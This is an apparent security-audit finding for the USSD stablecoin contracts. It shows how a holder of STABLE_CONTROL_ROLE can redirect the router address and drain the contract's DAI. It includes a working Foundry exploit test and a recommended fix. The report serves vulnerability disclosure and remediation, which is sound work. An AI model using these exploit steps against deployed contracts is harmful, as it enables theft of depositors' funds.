0xyPhilic

medium

# A malicious user with `STABLE_CONTROL_ROLE` can drain all funds

## Summary

A user with the `STABLE_CONTROL_ROLE` can update major protocol dependencies. One of those is setting the `uniRouter` address in `USSD.sol` contract. 

## Vulnerability Detail

The vulnerability relies on an actor with the `STABLE_CONTROL_ROLE` who is malicious. The actor can re-set the `uniRouter` address to point to his own address or a malicious smart contract by invoking the `setUniswapRouter()` function inside `USSD.sol`. Once this is done, the malicious actor can call the `approveToRouter()` which is public and approves the `uniRouter` to spend any token inside of `USSD.sol` - as example DAI. Then the attacker simply has to call `transferFrom()` passing the address of the USSD.sol contract, his address as recipient and the balance of the contract for the specific token, which will transfer all funds from the contract to the attacker address.

## Impact

Complete loss of user deposited funds as well as funds obtained by the protocol during `rebalance()` procedures.

## Code Snippet

The following test shows that the initial DAI balance of the contract is 3000 after `Bob` mints USSD and after the operations performed by the malicious actor the DAI balance of the contract is 0.

```solidity
function test_stableControlExploit() external {
        // Bob mints some USSD with DAI using mintForToken()
        vm.startPrank(_bob);
        _dai.approve(address(_ussd), type(uint256).max);
        _ussd.mintForToken(address(_dai), 3000e18, _bob);
        vm.stopPrank();
        // Malicious owner gives stable control role to attacker
        vm.startPrank(_controller);
        _ussd.grantRole(_ussd.STABLE_CONTROL_ROLE(), address(_attacker));
        vm.stopPrank();
        // Malicious STABLE_CONTROL_ROLE holder re-sets the uniRouter address, approves it for DAI and transfers all dai from USSD.sol to him
        vm.startPrank(_attacker);
        _ussd.setUniswapRouter(_attacker);
        _ussd.approveToRouter(address(_dai));
        _dai.transferFrom(address(_ussd), _attacker, _dai.balanceOf(address(_ussd)));
        assertEq(_dai.balanceOf(address(_ussd)), 0);
    }
```

## Tool used

Manual Review / Foundry

## Recommendation

Remove the `approveToRouter()` function and instead use `approve()` within the `UniV3SwapInput` function before the actual swap on Uniswap is executed by passing `uniRouter` as spender and `_sellAmount` as value:

```solidity
function UniV3SwapInput(
        bytes memory _path,
        uint256 _sellAmount,
        address _token
    ) public onlyBalancer {
        IERC20Upgradeable(_token).approve(address(uniRouter), _sellAmount);
        IV3SwapRouter.ExactInputParams memory params = IV3SwapRouter
            .ExactInputParams({
                path: _path,
                recipient: address(this),
                //deadline: block.timestamp,
                amountIn: _sellAmount,
                amountOutMinimum: 0
            });
        uniRouter.exactInput(params);
    }
```
The operation adds a bit of gas, but ensures that collateral can't be stolen by malicious actor or lost/stolen private key. It also ensures that the router never has more `allowance` than what it needs to execute the swap.

**Make sure to update the calls to the `UniV3SwapInput` function from `USSDRebalancer.sol` to pass also as an argument the token address:**

- https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSDRebalancer.sol#L122
- https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSDRebalancer.sol#L135
- https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSDRebalancer.sol#L154
- https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSDRebalancer.sol#L156
- https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSDRebalancer.sol#L169
- https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSDRebalancer.sol#L173
- https://github.com/sherlock-audit/2023-05-USSD/blob/main/ussd-contracts/contracts/USSDRebalancer.sol#L201

